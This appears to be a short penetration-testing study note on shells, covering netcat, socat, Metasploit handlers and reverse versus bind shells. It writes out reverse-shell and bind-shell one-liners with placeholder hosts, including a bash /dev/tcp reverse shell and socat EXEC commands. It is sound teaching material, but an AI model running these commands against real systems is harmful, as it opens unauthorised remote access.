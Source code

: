 # Shells
Shells are the `programs running inside the console that interpret your commands` ran on your CLI (Command-line interface). In other words, the common `bash` or `sh` programs in Linux are examples of shells, as are `cmd.exe` and `Powershell` on Windows.

When targeting remote systems it is sometimes possible to force an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, we want to use this initial access to obtain a shell running on the target.

Most used shells: `bash`, `sh`, `cmd.exe`, `powershell.exe` & `/bin/zsh`

## Tools
1. Netcat: A networking tool commonly used for setting up listeners and reverse shells.

    Example: `nc -lvnp <PORT>` where l=listen, v=verbose, n=no reverse-DNS & p=port specification.

2. Socat: An advanced alternative to Netcat, supports encrypted connections and more protocols. Encrypted Socat shells are also possible using `OPENSSL`.

    `socat TCP-L:<PORT> -` + `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` or `EXEC:powershell.exe,pipes`

3. Metasploit multi/handler: A superb tool for `catching reverse shells`.
4. Msfvenom: Used to generate payloads (shells).
5. Meterpreter: Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets.

Another useful set of tools:
1. `rlwrap`, a tool to wrap readline functionality for command-line utilities that lack it (e.g., netcat).
2. Python: Converting a simple shell into a fully interactive shell. `python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Types:
1. Reverse shell: We force a remote server to give us CLI access.

    Example : `rlwrap nc -lvnp 4444` (listener), `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1` 

2. Bind shell: We open a port on a remote server which we can connect to in order to execute commands.

    Example: `nc -lvnp <port> -e "cmd.exe"` (target machine), `nc MACHINE_IP <port>` (attacking machine).

### Interactive vs. Non-interactive shells
1. Interactive: These allow you to interact with programs after executing them.

    Example: `Powershell, Bash, Zsh, sh` or any other standard CLI environment

2. Non-Interactive: You are limited to using programs which `do not require user interaction` in order to run properly.

    Example: Can't run `ssh` but can run `whoami`, `pwd`, etc.
